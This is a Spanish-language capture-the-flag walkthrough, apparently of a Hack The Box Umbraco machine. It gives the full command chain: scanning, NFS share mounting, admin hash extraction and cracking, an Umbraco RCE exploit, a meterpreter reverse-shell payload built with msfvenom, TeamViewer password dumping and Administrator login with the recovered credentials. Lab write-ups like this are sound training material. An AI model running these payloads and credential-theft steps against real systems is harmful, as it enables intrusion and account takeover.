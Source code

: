 ```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults

layout: default
---
```


Empezaremos haciendo el nmap de siempre:

```bash

nmap -p- --open -sCV -sS -n -Pn -vvv 10.10.10.180 -oN escaneo_nmap

```

Y nos encontrará un montón de puertos abiertos, vemos 2 que nos interesan a primera vista.

![image](../zimages/Pasted_image_20231203203247.png)

Si probamos a entrar en ftp como Anonymous no nos encuentra nada dentro de ftp:

![image](../zimages/Pasted_image_20231203203401.png)

Vamos a entrar en el puerto 80 (la web), inspeccionamos un poco pero no vemos nada interesante, vamos a hacer un wfuzz para encontrar subdirectorios:

```bash

wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u 'http://10.10.10.180/FUZZ'

```

Con estos parámetros nos encuentra un montón de subdirectorios, pero si inspeccionamos un poco vemos que nos aparece uno que se llama "install", que si nos metemos desde la web nos hace un redirect a esta página:

![image](../zimages/Pasted_image_20231203203911.png)

Una vez en esta página vemos que hay un panel de login, pero no parece que haya forma de entrar de momento. Si **volvemos sobre nuestros pasos** y nos vamos al escaneo de nmap que hicimos antes nos damos cuenta que el siguiente puerto de nfs está abierto:

![image](../zimages/Pasted_image_20231203204430.png)

En este puerto se están emitiendo una ubicación por la red (una montura), con el comando

```bash

showmount -e "10.10.10.180"

```

podemos ver las monturas que está emitiendo esa ip:

![image](../zimages/Pasted_image_20231203204727.png)

Aunque también podemos hacerlo con nmap mediante el comando

```bash

nmap -p 111 --script=nfs-showmount "10.10.10.180"

```

![image](../zimages/Pasted_image_20231203204842.png)

Una vez en este punto, podemos montar en local esa montura con el comando

```bash

mount -t nfs 10.10.10.180:/site_backups /mnt/

```

![image](../zimages/Pasted_image_20231203205218.png)

Si vamos al directorio App_Data vemos que hay un archivo .sdf llamado *Umbraco.sdf*, donde vienen datos en binario. Hay mucha información, así que vamos a poner el comando

```bash

cat Umbraco.sdf | head

```

para que nos ponga en pantalla solo las primeras líneas de este archivo, en las que vemos un hash de la contraseña de admin:

![image](../zimages/Pasted_image_20231203205630.png)

Si nos vamos a la web de https://crackstation.net la crackeamos fácil:

![image](../zimages/Pasted_image_20231203205736.png)

También tenemos el usuario de la web del admin, el login donde pedía un correo:

![image](../zimages/Pasted_image_20231203205810.png)

Si nos vamos a la web y probamos con estas credenciales entramos a la web, que si nos vamos a la esquina de arriba a la izquierda, donde nuestro usuario admin, tendríamos la versión de *Umbraco*:

![image](../zimages/Pasted_image_20231203210018.png)

Si buscamos un exploit por GitHub, nos encontramos con la web https://github.com/Jonoans/Umbraco-RCE/, donde hay que clonar el repositorio. Una vez clonado e instalados los requirements, ejecutamos el ejecutable .py (exploit.py) de la siguiente manera

```bash

python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.10.10.180 -i 10.10.14.20

```

Una vez puesto este comando, nos da una shell directamente:

![image](../zimages/Pasted_image_20231203213041.png)

El problema es que si probamos a poner comandos básicos no funciona bien.

Lo primero que haremos es irnos a un directorio donde tengamos más permisos, como por ejemplo *temp*:

```powershell

cd C:\windows\temp

```

Una vez aquí, nos vamos a compartir un archivo malicioso hecho mediante msfvenom para poder conseguir una shell mejor. Vamos a crear el archivo con el siguiente comando:

```bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=5555 -f exe -o  virus.exe

```

Mediante este comando estamos creando un archivo malicioso .exe, al que le estamos metiendo un payload de una meterpreter de windows, especificando el puerto y nuestra ip. Una vez creado, lo vamos a compartir con la máquina víctima mediante impacket. Con el siguiente comando crearemos un recurso compartido:

```bash

impacket-smbserver samucrow $(pwd) -smb2support

```

Esto básicamente es como hacer un

```python

python3 -m http.server 80

```

pero para windows funciona mejor impacket.

Una vez iniciado el servidor para compartir archivos, nos vamos a copiar el .exe malicioso a la máquina víctima de la siguiente manera:

```powershell

copy \\10.10.14.20\samucrow\virus.exe virus.exe

```

Una vez tenemos el virus dentro del sistema víctima, nos vamos a metasploit usando msfconsole para usar multi/handler:

![image](../zimages/Pasted_image_20231203215628.png)

con el comando

```msfconsole

set PAYLOAD windows/meterpreter/reverse_tcp

```

vamos a definir el mismo payload que pusimos en el .exe que copiamos en la máquina víctima para conseguir una meterpreter. Vamos a poner los datos que nos piden de nuestra ip, tanto en el payload como en el multi/handler, y vamos a poner también el puerto 5555 en ambos, que es el que especificamos anteriormente en el payload también:

![image](../zimages/Pasted_image_20231203220118.png)

ponemos el comando run y ejecutamos el virus.exe en la máquina víctima poniendo `./virus.exe`, lo que nos dará una meterpreter:

![image](../zimages/Pasted_image_20231203220355.png)

Una vez en la meterpreter, ponemos `shell` y nos dará una shell de windows:

![image](../zimages/Pasted_image_20231203221312.png)

ahora iremos a C:\Users\Public\ para ver la flag de user:

![image](../zimages/Pasted_image_20231203221719.png)



# Escalada 1


Ahora si nos vamos a la ruta "*C:\Program Files (x86)*", vemos que esta máquina tiene *TeamViewer*, por lo que vamos a usar un módulo de metasploit que nos permite enumerar este programa.

Pondremos el comando `background` en la meterpreter (primero hay que hacer `exit`), ahora vamos a buscar lo siguiente:


```msfconsole

search teamviewer

```


![image](../zimages/Pasted_image_20231203223006.png)

elegimos al opción "1" y si ponemos `show options` vemos que nos pide un SESSION, por lo que listamos las sesiones activas con `session -l`:

  

![image](../zimages/Pasted_image_20231203223209.png)

elegimos la opción "1" y ponemos `run` y nos encontrará la contraseña de TeamViewer:

  

![image](../zimages/Pasted_image_20231203223318.png)

Para deducir de que usuario es esta contraseña, vamos otra vez a la shell de meterpreter con `session -i 1` y vamos a la ruta "*C:\users*", donde veremos  que solo existe el usuario **Administrador**.

Ahora con `evil-winrm` vamos a entrar en la máquina como Administrador:

```bash

evil-winrm -i 10.10.10.180 -u 'Administrator' -p '!R3m0te!'

```

Ahora nos iríamos al escritorio del Administrador y tendremos la flag de root:

![image](../zimages/Pasted_image_20231203224126.png)


# Escalada 2 (NO FUNCIONAL)


Si nos vamos a la consola de metasploit, podemos poner el comando `search local_exploit_suggester` y `use 0` para usar el exploit suggester, una vez hecho esto, ponemos `set SESSION 1` y `run`, así nos buscará posibles formas de conseguir privilegios de Administrador.
  
![image](../zimages/Pasted_image_20231203224957.png)

Probamos con todos los posibles exploits pero ninguno funciona